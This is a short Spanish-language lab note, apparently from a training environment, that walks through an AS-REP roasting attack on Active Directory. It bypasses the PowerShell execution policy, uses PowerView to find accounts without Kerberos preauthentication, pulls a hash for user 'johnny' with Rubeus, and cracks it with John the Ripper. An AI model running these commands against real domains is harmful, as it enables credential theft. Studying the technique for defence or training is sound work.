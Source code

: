 
AS-REP es una técnica que utiliza el hecho de que algunos usuarios no requieren de una preautenticación de kerberos.

Un atacante descubre estos usuarios vulnerables lanzando la query de usuarios con "Do not require Kerberos preauthentication".

ejemplo de ataque:

```PowerShell
cd C:\tools
powershell -ep bypass
. .\PowerView.ps1
Get-Domainuser | Where-Object { $_-UserAccountControl -like "*DONT_REQ_PREATH*" }
```

![[Pasted image 20250321102818.png]]

Como vemos el usuario johnny tiene este permiso asignado, asi que le vamos a hacer un ataque con la herramienta Rubeus

```PowerShell
.\Rubeus.exe asreproast /usr:johnny /oufile:johnnyhash.txt
```

![[Pasted image 20250321103053.png]]

Ahora ya tenemos el hash de johnny, vamos a utilizar john the ripper para poder crackearlo. Lo tenemos dentro de tools, en un zip (dentro de la carpeta run hay un .exe).

```PowerShell
.\john.exe .\johnnyhash.txt --format=krb5asrep --wordlist=.\10k-worst-pass.txt
```

![[Pasted image 20250321103610.png]]

